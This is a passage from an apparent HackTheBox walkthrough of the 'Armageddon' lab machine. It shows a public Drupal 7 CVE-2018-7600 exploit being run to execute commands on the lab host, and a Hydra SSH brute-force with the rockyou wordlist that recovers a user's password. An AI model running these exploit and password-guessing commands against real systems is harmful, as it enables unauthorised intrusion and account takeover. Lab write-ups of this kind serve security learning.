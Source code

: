 ```sh
tcp    LISTEN     0      0      [::]:80                 		 [::]:*               ino:18379 sk:0
```

Aside from enumerating the files in `/var/www/html`, I actually skipped everything by accident. When I was looking through different directories in `/`, I did not find anything useful. What was more strange was that nothing from `/home` would show up. Even running `cat /home/brucetherealadmin/user.txt` would not show the flag. This was probably intended but it left me stumped.

I saw that MySQL was running locally, but I could not connect to the database. I thought this was a rabbit hole, so I moved on pretty quickly after it returned nothing.

```sh
[tyco㉿4YE: ~/htb/armageddon/CVE-2018-7600]$ python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c "mysql -u root -p"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-iwkC1kWnWmS7wlI5gFL2c-hEKRTG_GKRkzY2Hc1bFas
[*] Triggering exploit to execute: mysql -u root -p
```

Without a way to see the home directory, I was confused what I was supposed to do next. It was odd that I could not access the home directory. I kept enumerating the system but could not find any passwords (*ha*) that I could try to use to SSH into the user `brucetherealadmin`. The next logical step in my mind was bruteforcing, but I was a bit hesitant because I was questioning if that was the intended path of the box. I'm not a big fan of guessing passwords on HackTheBox (like Nibbles). I ended up trying it out in the background as I continued enumerating the system, AND IT WORKED!

```sh
[tyco㉿4YE: ~/htb/armageddon]$ hydra -l brucetherealadmin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.233

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-28 21:40:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.10.233:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 14344223 to do in 1320:50h, 16 active

[22][ssh] host: 10.10.10.233   login: brucetherealadmin   password: booboo

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-28 21:41:51
```

# snap exploit
